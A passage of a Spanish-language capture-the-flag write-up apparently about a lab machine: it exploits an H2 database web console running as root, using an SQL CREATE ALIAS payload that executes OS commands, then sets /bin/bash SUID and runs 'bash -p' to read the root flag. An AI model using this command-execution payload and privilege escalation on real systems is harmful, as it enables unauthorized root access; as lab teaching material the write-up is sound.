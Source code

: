 Ahora en firefox si vamos a la url `http://localhost:8082` ya podemos ver el contenido de la web.

Si pinchamos en preferencias y despues en **Permitir conexiones desde otros ordenadores** ya podemos navegar desde la
url `http://10.10.10.102:8082`.

Aqui vemos un mensaje Wrong user name or password. Esto puede passar si la **URL JDBC** ya esta en uso. 
si cambiamos la url `jdbc:h2:~/test` por `jdbc:h2:~/EEEEEE` y pinchamos el boton conectar, Entramos en el
panel de control H2 database.

Si en la shell buscamos con el commando `ps -faux` y buscamos el servicio **h2** vemos que el servicio a sido lanzado por
el usuario root. Quiere decir que si ejecutamos commandos desde la consola h2, lo lanzariamos como usuario root.

Buscamos si existe un exploit para H2 console

```bash
searchsploit h2 consola
searchsploit h2 database
```

Encontramos un exploit en python que permitiria ejecutar **Alias Arbitrary Code execution**. Lo analizamos:

```bash
searchsploit -x 44422
```

Mirando el exploit, vemos que tenemos que crear un alias en el cual podemos podemos utilizar para ejecutar commandos. En este caso
no necessitamos utilizar el exploit. Podemos copiar las partes que nos interessa en el panel H2.

```sql
CREATE ALIAS EXECVE AS $$ String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new \
java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }$$;

CALL EXECVE('whoami')
```

Aqui vemos **root**. Pues aqui lanzamos el commando para que la `/bin/bash` sea SUID

```sql
CREATE ALIAS EXECVE AS $$ String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new \
java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }$$;

CALL EXECVE('chmod 4755 /bin/bash')
```

En la shell, ya podemos comprobar que la `/bin/bash` es SUID y con el commando `bash -p` no convertimos en root

```bash
ls -l /bin/bash
bash -p
cd /root
cat root.txt
```

Y a estamos root y podemos visualizar la flag.
